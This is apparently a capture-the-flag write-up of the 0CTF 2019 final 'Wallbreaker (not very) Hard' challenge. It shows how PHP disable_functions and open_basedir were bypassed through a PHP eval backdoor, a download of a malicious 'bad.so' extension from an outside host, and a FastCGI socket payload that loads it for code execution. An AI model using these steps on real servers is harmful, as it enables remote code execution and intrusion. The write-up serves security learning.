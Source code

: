 # Wallbreaker (not very) Hard

## Problem

- This challenge environment is same as 0CTF 2019 qual - Wallbreaker Easy
    - PHP-FPM
    - PHP 7.2
    - strict `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - no `putenv` this time :p
    - `open_basedir: /var/www/html:/tmp`

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/phpinfo.png)

- This challenge tells us there is a backdoor in somewhere
- After scanning, I found `.index.php.swp`
- backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- OK, it's time for bypass `disable_functions`和`open_basedir`

## Exploit

- In 0CTF qual, I forge fastcgi protocol to bypass `open_basedir` (overwrite the settings)
- But I found there is another way that is possible to bypass `disable_functions` to RCE
    - using the `extension`!
- So we just need to write the `extension_dir` and `extension` in `PHP_ADMIN_VALUE`, then we can load arbitrary extension
- First step is to upload a RCE extension:

```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- Before building the fastcgi payload, we should find out its UNIX Socket path (if it use tcp, we need to find the port)

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- Then, starting to create FastCGI payload to overwrite settings. Here is the payload reference: [payload.php](https://github.com/w181496/FuckFastcgi/blob/master/index.php)
    - change the config, then run it


![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/getflag.png)

- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`

